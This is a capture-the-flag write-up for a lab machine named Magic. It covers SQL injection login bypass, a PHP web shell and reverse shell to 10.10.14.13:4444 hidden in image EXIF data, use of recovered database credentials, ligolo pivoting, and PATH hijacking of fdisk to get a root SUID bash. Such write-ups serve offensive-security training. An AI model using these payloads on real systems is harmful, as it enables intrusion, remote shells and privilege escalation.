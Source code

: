#Pwned! 
```IP
10.10.10.185
```
# Enumeration

As always I start with nmap:
```
sudo nmap -sCV 10.10.10.185 -vvv -p- -oN enum/full
```
## HTTP 80
Apache httpd 2.4.29 ((Ubuntu))
There is a login page
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227100201.png?raw=true)
When submitting a single quote it does not prompt any alert:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227100140.png?raw=true)
It seems like we have a SQLi vulnerability. Let's exploit it.
# Exploitation
If we intercept the request we can bypass the login:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227102100.png?raw=true)
Download an example image and modify it with exiftool as follows:
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```
```
exiftool -Comment='<?php $sock=fsockopen("10.10.14.13",4444);passthru("sh <&3 >&3 2>&3"); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file
```
mv lo.jpg lo.php.jpg
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227105025.png?raw=true)
We have RCE.
After some trial and error, if we upload a php reverse shell our listener will get a estable shell:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227112332.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227112532.png?raw=true)

# PrivEsc

## Manual
It seems like we have another user `theseus` whose flag we can't read:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227112816.png?raw=true)

There seems to be sql database. We can find credentials inside the following file `/var/www/Magic/db.php5`:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114315.png?raw=true)
There is a local port where mysql seems to be executing. Let's use ligolo to port forward to it:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114731.png?raw=true)
In our local machine we will execute the following commands:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114836.png?raw=true)
And in another terminal:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114851.png?raw=true)
And in the target machine we will wget the ligolo-proxy and connect:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114921.png?raw=true)
we can now connect to the database with the following command:
```
mysql -h 240.0.0.1 -P 3306 -u theseus -p Magic --password='iamkingtheseus' --ssl=FALSE
```
Where we can get credentials:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227122604.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227122700.png?raw=true)
If we run linpeas again we will find a SUID marked binary which we can now execute since we are in the users group now
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227125356.png?raw=true)
Analyzing the binary with `ltrace` we find that it calls fdisk without specifying the full path.
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227125249.png?raw=true)
So let's export our current directory to PATH and create there a malicious `fdisk`file, giving it execute permissions too:
```
export PATH=$(pwd):$PATH
```
```
echo '#!/bin/bash' > fdisk
```
```
echo 'chmod u+s /bin/bash' >> fdisk
```
```
chmod +x fdisk
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227130012.png?raw=true)

After executing it again we get SUID bash, which we can exploit with:
```
bash -p
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227130220.png?raw=true)




## Automated

### Peass

### Mimikatz

# Lateral Movement

